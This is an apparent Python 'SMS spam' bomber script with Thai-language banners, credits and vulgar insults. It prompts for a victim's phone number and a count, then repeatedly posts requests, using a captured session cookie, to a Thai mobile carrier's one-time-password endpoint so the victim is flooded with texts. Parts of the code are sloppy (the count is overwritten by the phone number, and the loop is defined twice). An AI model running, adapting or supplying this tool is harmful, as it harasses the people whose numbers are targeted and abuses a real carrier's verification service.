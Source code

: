 import requests,json,time,threading
import requests,json,time,threading,os,sys
import urllib.request, os, threading, time, random, sys
import colorama
from colorama import Fore, Style, init
#from requests_futures.sessions import FuturesSession
#from requests_futures import sessions
import requests,json,time,threading
password ="BALLX2"
os.system("clear")
os.system("figlet password")
print("")
print("")
print("    เครดิต :\033[1;96mYoutubeBALLX2\033[1;97m")
print("")
print("ติดตามด้วย")
print("ฟรีๆไม่มีอีกละ")
for i in range(3):
    pwd = input ("Enter the password : ")
    l=3
    if(pwd==password):
     print("ACCES GRANTED")
     break
    else:
        print("\033[1;96mรหัสผิดไอควาย\033[1;97m",i-l)
os.system("clear")
os.system("figlet S   P   A   M   S   M   S")
print ("\tยิงSMS 1.0")
print("    FB :\033[1;96mhttps://www.facebook.com/profile.php?id=100070796592410\033[1;97m                                      			")
print("               ยิงเต็มที่")
print ("           YouTube: \033[1;96mBALLX2\033[1;97m")
print ("          \033[1;96m S  P  A  M  S  M  S\033[1;97m")
print("แจกพ่องตาย แจกพ่องตาย แจกพ่องตาย")
print("BALL BALL BALL")
session = requests.Session()
print ("\033[90m>\033[1;97m ตัด0ออกตัวอย่าง: \033[1;92m66875347853")
number = input("\033[90m> \033[1;97mใส่เบอร์ที่ต้องการยิง: \033[1;92m")
print("ควย ควย ควย ควย ควย ควย ควย ควย ควย ควย ")
num = int(input("\033[90m> \033[1;97mจำนวนยิง: \033[1;92m"))
num = int("" + number)
class SMS():
    def spamais(self,num):
        url = "https://srfng.ais.co.th/login/sendOneTimePW"
        data = f"msisdn={num}&serviceId=AISPlay&accountType=all&otpChannel=sms"
        headers = {
                    "Host": "srfng.ais.co.th",
                    "Connection": "keep-alive",
                    "Content-Length": "67",
                    "Accept": "*/*",
                    "X-Requested-With": "XMLHttpRequest",
                    "User-Agent": "Mozilla/5.0 (Linux; Android 8.1.0; DUB-LX2 Build/HUAWEIDUB-LX2; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/85.0.4183.127 Mobile Safari/537.36",
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
                    "Origin": "https://srfng.ais.co.th",
                    "Sec-Fetch-Site": "same-origin",
                    "Sec-Fetch-Mode": "cors",
                    "Sec-Fetch-Dest": "empty",
                    "Referer": "https://srfng.ais.co.th/8WXNShEVNCGn0o3%2BN6pPqiW5KfoLSNBvVqkqoQCl%2Bc4%3D?channel=webview&redirectURL=http%3A%2F%2Fakdev.vidnt.com&httpGenerate=generated",
                    "Accept-Encoding": "gzip, deflate",
                    "Accept-Language": "th-TH,th;q=0.9,en-US;q=0.8,en;q=0.7",
                    "Cookie": "_chunk=1; ol3-0=po2YOaPtZc%252BHZHeVG7D7ZG%252BLV3UUNnejYANfRIc2aJod7cBWn4witm8nZ2sSxOTfOWWMwSy5FO6tx1sSEi9ZDB6KdVROBSUMCUmL4sW%252FLLA6ahW1%252F%252BrZ1jan%252B2q%252FW6kwWWysBGQ1yy9%252FEw9ikEYOIOIedS8D8gfnUSAJlw23hH4PBk7LoyIhxL8cSUz%252B9IeUsVoDGhZIy0ctP0eymS4pd2s8dJvTqGUA1DT%252B4K7pmb8Q5ILPB0lkX7dt8oF2cZPtS%252Bnt8%252B6owBy%252Fs9WBVn1%252FOgvmucyX3cpiVLwQ4j%252FHQSYZPTnhBMIjoHET1Crvm8R5LTxkQwlBG3%252BnCWJs%252Bi9ups%252BqwUu16%252FKbELuWlQP0c4QZZH5QycFTQSe99dLLW%252B9p0RHRzywsQIn87FPH8L0gtszrXqKiFvtxE8Pqggd3uqKYFSMwfsPmq0F0uwkn6quCBVPvhQFfu5EmKs%252FEvhFra4YP8HKIEj4XzRJb3vZ7%252FTrr2WVX05gRU6z%252FlcARYAi5%252BQKjvB5FQJ0qDyB%252FW08dzfFbAEBNJ8bXjd%252FoSLcLEXWGHxDuLZdZoktrNPoR62cGNZXwESbtOn2dewHBJZ%252B9Gy7%252FkAjB6JzJDggYU1S%252FsN4s5AeCgGP73YEnl8HzPKGkNS41f7lGfAYlh3nem8GfS8MU7nuROY67%252FFhOvro3zsP5u8S8FyZNQxwJ%252FLVCFIA%252FQJvh%252Fqn%252BMQuY3FCG0UR0aj%252BFblDcoHHilrMOL80ARYMPPXNQPF2CrT9oSAflIke55nD%252FHFLl1oNawMNhw1xDCVg8kJLlzL019hJBkc7lBHzQOuVb1OclmjClna8yuPthki7cTgWLFUCOIUWD9RPRtolQL2oXPkwtiw3wl3OvkHfgoqCY3DZ4mNPuVn02F2%252B7fJeAJcPbHN4h3oqAnN3dv%252FebBFqMykm545pslib3M%252FI2DYESmolC484IfK0uXD5D0rC%252Fo5%252FO%252BMvAmKevq9L6vW8pFbvG%252B5q%252BBInKvYPJ%252BOxCyzMixWbOUnOW4axJtZp3grN474ew9v4UFkdU8VUGoXKVhldzaK9%252BxYuJBdY2Jfzqf%252FsVIYv3uE4RmGzzoeCrQ7QXZm0uH6t3j1yF63KOQX4QwOmpG526ym0Sh%252BXLWQFhxnbuquuA8N7cumFvTTi7oWHt4W8mJQ4IN1GvS0iHlBQHgvnEkjGRlCtB%252FJ07aNkfBWlLrwb1zgQI88OkOrtTDDUdsIUSVdy7r5pOILz6rcT8kC%252FGqneTshPK9RF4PHxrBSDIPlQIVXJI6dxsiAr5H3UfAAa5FsfN8samV5qyQTgm3s9SC4w83uM1twiFJtarImPcx41vDFL7NF4yy7Ej7eSY%252FFyqLQuoCKDPhxlyOaH8mRoseOkpdQI0Bp4z75t0NlP%252B4YIV4EKmRueIktZmOk5c0I1SLC3bZ240Wshg7rbP6IgtwFEzWrOoIAGpfWHDjYjI8oiMpQX98aBtbtZA9sKvIDrY%252FdQqDsP4vDSPy3n1zb8pXhqaKLkDaAWih%252Ba6BX3FkEdn4fPrzZrNPfuHRC3hfSV51Jz4t3RxTPUlOS8goU8VSmQF%252F9wQEaLAkVR3F4sGzn1GH1fesp46wBbSOSkWNCEIu%252F%252B1VTElnOqnPSntHsUmow7jMst3uCb7Z9mNj%252Bo4RQM0oEuf39FLtPgIWMfYBXSEQXOXUeO2%252BYXI9OUFORSQBJy1kZcTPw2gjR4ZYrkaWKgqCo5jtIclLeDiLqzdBKYjupRC3%252BFXgL0SDchuE%252BD3XaNJ1YH2SVg0UzxbOIg6aIBxcIhakpSZw2w0jjPL1c1YG%252BAgVvT%252BeNL%252FzHr%252FeiqQkFjNI%252F64fvurU75Qy53GSlOBBvQTMhg0q11qYi4QMaxf2V%252FQ1TY3QLnfXiYKCq60Gh9gSACyjrf8thXVYUYheRWz2jM%252BotOvz%252FZwIbXf4SPGR71PK7X%252F2a30w01XgOvYf9dxC%252F9pWn4yNxgl%252BPhoIXK%252Fj%252FQRofkDIdzr1VJ0%252Bq6aX66IuSuytQAwWsoB"
        }
        time.sleep(1)
        send = session.post(url,data=data,headers=headers).json()
        # if send.get("msg") == "msg":
        #     pass
        # else:
        #     print(send.get("msg"))
os.system("clear")
print ("กำลังรวม....")
print ("มาดิ มาดิ มาดิ มาดิ มาดิ มาดิ มาดิ")
print ("")
print ("")
t = SMS()
def loop(num):
    for i in range(num):
        t.spamais(num)
        print("ยิงแล้วครับท่าน [AISP_Play]BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2  ")
loop(num)
def loop(num):
    for i in range(num):
        t.spamais(num)
        print("ยิงแล้วครับท่าน [AISP_Play] BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 BALLX2 ")
loop(num)


